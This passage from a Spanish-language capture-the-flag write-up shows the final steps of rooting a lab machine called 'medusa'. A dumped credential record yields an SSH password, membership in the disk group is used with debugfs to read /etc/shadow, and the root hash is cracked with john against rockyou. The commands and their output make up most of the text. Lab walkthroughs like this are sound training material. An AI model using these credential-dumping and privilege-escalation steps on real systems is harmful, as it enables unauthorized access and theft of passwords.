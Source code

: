 ```
                        "luid": 1000050,
                        "password": "Wh1t3_h4ck",
                        "password_raw": "570068003100740033005f006800340063006b0000000000",
                        "pin": null,
                        "pin_raw": null,
                        "tickets": [],
                        "username": "LordP4"
                    }
                ],
[...]
```

También salgo yo por ahí :) ^^^

Ahora con la contraseña puedo logearme usando ssh. Rápidamente se puede ver que "spectre" pertenece al grupo **disk** por lo que tiene acceso al disco completo.

```
$ ssh spectre@192.168.1.87
spectre@192.168.1.87's password: 
[...]
spectre@medusa:~$ id
uid=1000(spectre) gid=1000(spectre) groups=1000(spectre),6(disk),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

Utilizo "debugfs" para leer los archivos /etc/passwd y /etc/passwd dado que root no tiene id_rsa.

```
$ /usr/sbin/debugfs /dev/sda1
debugfs:  cat /etc/shadow
root:$y$j9T$AjVXCCcjJ6jTodR8BwlPf.$4NeBwxOq4X0/0nCh3nrIBmwEEHJ6/kDU45031VFCWc2:19375:0:99999:7:::
[...]
debugfs:  cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

Los paso a mi máquina e intento obtener la contraseña de root usando john.

```
$ unshadow pass shadow > hash_root
$ john hash_root --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt 
a*******a        (root)
```

Contraseña encontrada!!

```
spectre@medusa:~$ su root
Password: 
root@medusa:/home/spectre# :)
```

Y con esto la máquina ya estaría resuelta.

Muchas gracias a **Noname** por esta máquina.
